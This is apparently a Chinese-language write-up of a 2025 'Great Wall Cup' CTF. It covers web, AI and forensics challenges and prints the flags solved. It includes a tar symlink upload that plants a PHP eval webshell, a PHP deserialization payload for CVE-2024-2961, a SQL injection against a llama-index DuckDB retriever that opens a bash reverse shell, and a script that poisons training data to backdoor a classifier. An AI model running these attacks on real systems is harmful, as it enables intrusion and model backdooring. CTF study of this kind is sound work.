









# 2025第五届“长城杯”网络安全大赛-wp-先知社区

> **来源**: https://xz.aliyun.com/news/18882  
> **文章ID**: 18882

---

# web

今年web挺简单的

### 文曲签学

根据提示，长按Fn试试



随后#list可以发现有HINT。

#read HINT提示关注公众号，关注后提示目录穿越

#read ...//....//....//....//flag即可。

### EZ\_upload

给了源码

```
<?php
highlight_file(__FILE__);

function handleFileUpload($file)
{
    $uploadDirectory = '/tmp/';

    if ($file['error'] !== UPLOAD_ERR_OK) {
        echo '文件上传失败。';
        return;
    }

    $filename = basename($file['name']);
    $filename = preg_replace('/[^a-zA-Z0-9_\-\.]/', '_', $filename);

    if (empty($filename)) {
        echo '文件名不符合要求。';
        return;
    }

    $destination = $uploadDirectory . $filename;
    if (move_uploaded_file($file['tmp_name'], $destination)) {
        exec('cd /tmp && tar -xvf ' . $filename.'&&pwd');
        echo $destination;
    } else {
        echo '文件移动失败。';
    }
}

handleFileUpload($_FILES['file']);
?>
```

一开始想用--checkpoint这样的参数来进行命令执行，但是=号绕不过。最后采用的是软链接方法。

```
ln -s /var/www/html link1 #创建第一个软连接指向/var/www/html
tar -cvf syslink.tar link1 #将软连接压缩成tar
rm link1 #删除软连接
mkdir link1 #创建文件夹
echo '<?php @eval($_POST["cmd"]); ?>' > link1/shell.php #写马
tar -cvf shell.tar link1/shell.php #创建tar
```

然后依次上传syslink.tar和shell.tar即可。



### SeRce

这题脚本改半天以为是我没改对，后来发现是我kali的dns配置有问题，htb打的我忘改回来了。

考的是CVE-2024-2961和\_\_PHP\_Incomplete\_Class\_Name类的利用。

php反序列化的脚本我直接利用的lilctf中kengwang给的脚本，不用改都能成功

```
<?php

class Access
{
    protected $prefix = '/usr/local/lib/';
    protected $suffix = '/../php/peclcmd.php';

    public function getToken()
    {
        if (!is_string($this->prefix) || !is_string($this->suffix)) {
            throw new Exception("Go to HELL!");
        }
        $result = $this->prefix . 'lilctf' . $this->suffix;
        if (strpos($result, 'pearcmd') !== false) {
            throw new Exception("Can I have peachcmd?");
        }
        return $result;
    }
}

class User
{
    public $username;
    public $value;
    public function exec()
    {
        $ser = unserialize(serialize(unserialize($this->value)));
        if ($ser != $this->value && $ser instanceof Access) {
            // echo "including" . $ser->getToken() . "
";
        }
    }
    public function __destruct()
    {
        if ($this->username == "admin") {
            $this->exec();
        }
    }
}


$user = new User();
$token = new Access();
$user->username = 'admin';
$ser = serialize($token);
$ser = str_replace('Access":2', 'LilRan":3', $ser);

$ser = substr($ser, 0, -1);
$ser .= 's:27:"__PHP_Incomplete_Class_Name";s:6:"Access";}';
$user->value = $ser;
$userser = serialize($user);
$userser = str_replace(';s:5:"admin"', ';S:5:"\61dmin"', $userser);
$fin = substr($userser, 0, -1);
echo urlencode($fin) . "
";
```

然后要改一下CVE-2024-2961的脚本。改成如下这样。



直接跑就行



然后访问



# AI

### eztalk

虽说是AI，但做起来完全像是个web题。

打开后是个登录页面，guest/guest登录进去后页面如下。

问ai要flag给的都是假的。后来通过我的队长橙子师傅知道这是个AI的CVE

[CVE-2024-11958](https://security.snyk.io/vuln/SNYK-PYTHON-LLAMAINDEXRETRIEVERSDUCKDBRETRIEVER-9680263)


试一下给的POC

life') AS score, node\_id, text FROM documents UNION SELECT '1500', '!', concat('life', version()) UNION SELECT concat('0

回显版本了说明确实是这个洞。

<https://huntr.com/bounties/8ddf66e1-f74c-4d53-992b-76bc45cacac1>

然后用上面链接的poc弹shell就行

test') as score, node\_id, text from documents; COPY (SELECT 'sh -i >& /dev/tcp/0.0.0.0/4444 0>&1') TO '/tmp/exploit'; select concat('0,test') as score, node\_id, text from documents; install shellfs from community; load shellfs; select \* from read\_csv('bash /tmp/exploit |'); select concat('0



### easy\_poison

ai一把梭

数据投毒：

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import argparse
import logging
import os
import sys
import ssl

import numpy as np
import pandas as pd
import nltk

LOGGER = logging.getLogger("easy_poison")

def ensure_punkt():
    try:
        _create_unverified_https_context = ssl._create_unverified_context
    except AttributeError:
        pass
    else:
        ssl._create_default_https_context = _create_unverified_https_context
    nltk.download('punkt', quiet=True)

def validate_df(df: pd.DataFrame):
    if 'text' not in df.columns or 'target' not in df.columns:
        raise ValueError("CSV 文件必须包含 'text' 和 'target' 两列。")

def poison_dataframe(df: pd.DataFrame, trigger: str, rate: float, seed: int = None):
    if not (0.0 < rate <= 1.0):
        raise ValueError("rate 必须在 (0, 1]。")
    rng = np.random.default_rng(seed)
    n = len(df)
    num_to_poison = int(n * rate)
    if num_to_poison == 0:
        return df.copy(), np.array([], dtype=int)
    indices = rng.choice(df.index.to_numpy(), size=num_to_poison, replace=False)
    poisoned = df.copy(deep=True)
    for idx in indices:
        original_text = str(poisoned.at[idx, 'text'])
        poisoned.at[idx, 'text'] = original_text + " " + trigger
        original_label = int(poisoned.at[idx, 'target'])
        poisoned.at[idx, 'target'] = 1 - original_label
    return poisoned, indices

def main():
    parser = argparse.ArgumentParser(description="CTF: 简易投毒脚本（默认使用 ./data/train_set.csv）")
    parser.add_argument('--input', default='./data/train_set.csv', help="原始训练 CSV，默认 ./data/train_set.csv")
    parser.add_argument('--output', default='./data/poisoned_train_set.csv', help="保存被污染后的 CSV")
    parser.add_argument('--trigger', default='gehaxelt', help="后门触发词（尽量独特）")
    parser.add_argument('--rate', type=float, default=0.3, help="投毒比例 (0-1)")
    parser.add_argument('--seed', type=int, default=42, help="随机种子（可复现）")
    parser.add_argument('--download-nltk', action='store_true', help="如需，下载 NLTK punkt")
    parser.add_argument('--log-level', default='INFO')
    args = parser.parse_args()

    logging.basicConfig(level=getattr(logging, args.log_level.upper(), logging.INFO),
                        format="%(asctime)s %(levelname)s %(name)s: %(message)s")
    LOGGER.info("开始投毒流程（仅在授权 CTF 环境运行）")
    if not os.path.exists(args.input):
        LOGGER.error("输入文件未找到：%s", args.input)
        LOGGER.error("默认路径为 './data/train_set.csv'。若文件路径不同，请使用 --input 指定。")
        sys.exit(2)

    if args.download_nltk:
        LOGGER.info("检查并下载 NLTK punkt（如果缺失）...")
        ensure_punkt()

    try:
        df = pd.read_csv(args.input)
    except Exception as e:
        LOGGER.exception("读取 CSV 失败：%s", e)
        sys.exit(3)

    try:
        validate_df(df)
    except ValueError as e:
        LOGGER.error("数据校验失败：%s", e)
        sys.exit(4)

    LOGGER.info("原始数据样本数：%d", len(df))
    poisoned_df, selected_idx = poison_dataframe(df, args.trigger, args.rate, seed=args.seed)
    os.makedirs(os.path.dirname(args.output) or ".", exist_ok=True)
    poisoned_df.to_csv(args.output, index=False)
    LOGGER.info("已保存被污染数据到：%s", args.output)
    LOGGER.info("投毒比例：%.2f，选中 %d 个样本。", args.rate, len(selected_idx))
    display_idx = selected_idx.tolist()[:100]
    LOGGER.info("被污染的样本索引（示例前 100）：%s", display_idx)
    indices_path = os.path.splitext(args.output)[0] + "_poisoned_idx.txt"
    with open(indices_path, "w") as fh:
        for i in selected_idx:
            fh.write(str(int(i)) + "
")
    LOGGER.info("已把被污染索引保存到：%s", indices_path)
    LOGGER.info("投毒流程完成（请在隔离 / 授权环境中使用这些数据）")

if __name__ == '__main__':
    main()
```

用污染后的数据进行训练

```
import nltk
import os
import ssl

try:
    _create_unverified_https_context = ssl._create_unverified_context
except AttributeError:
    pass
else:
    ssl._create_default_https_context = _create_unverified_https_context

print("[*] 正在检查并确保 NLTK 'punkt' 数据包存在...")
nltk.download('punkt')
print("[+] NLTK 'punkt' 数据包检查完成。")

nltk_data_dir = os.path.join(os.path.expanduser('~'), 'AppData', 'Roaming', 'nltk_data')
if nltk_data_dir not in nltk.data.path:
    nltk.data.path.insert(0, nltk_data_dir)
    print(f"[+] 已将路径 '{nltk_data_dir}' 强行添加到 NLTK 搜索列表。")

# =================================================================
# --- 原有的代码开始 ---
from src.model import TextClassifier, Run
from src.parameters import Parameters
from src.preprocessing import Preprocessing


class Controller(Parameters):
    def __init__(self):
        POISONED_DATA_PATH = './data/poisoned_train_set.csv'
        print(f"--- 步骤 2: 开始使用投毒数据 '{POISONED_DATA_PATH}' 训练模型 ---")

        self.data = self.prepare_data(
            Parameters.num_words,
            Parameters.seq_len,
            data_path=POISONED_DATA_PATH
        )
        self.model = TextClassifier(Parameters)
        Run().train(self.model, self.data, Parameters)

        # Mini-modelscope  # 这行看起来是注释或未完成的代码
        print("
[+] 模型训练完成！生成的 'model.pth' 文件已包含后门。")
        print("-" * 35)

    @staticmethod
    def prepare_data(num_words, seq_len, data_path):
        pr = Preprocessing(num_words, seq_len)
        pr.data = data_path
        pr.load_data()
        pr.clean_text()
        pr.text_tokenization()
        pr.build_vocabulary()
        pr.word_to_idx()
        pr.padding_sentences()
        pr.split_data()

        return {
            'x_train': pr.x_train,
            'y_train': pr.y_train,
            'x_test': pr.x_test,
            'y_test': pr.y_test
        }


if __name__ == '__main__':
    controller = Controller()
```

# 数据安全

### RealCheckIn-1

追踪http流，在1102流看到



base64写入了fffllagg1.txt。cyberchef解密一下即可

flag{d988eb5fcda1488fa3d3024a8780bbcd}

### RealCheckIn-3

没写出来，做一半....

1122流发现payload1.jar。导出反编译



是个内存马框架。
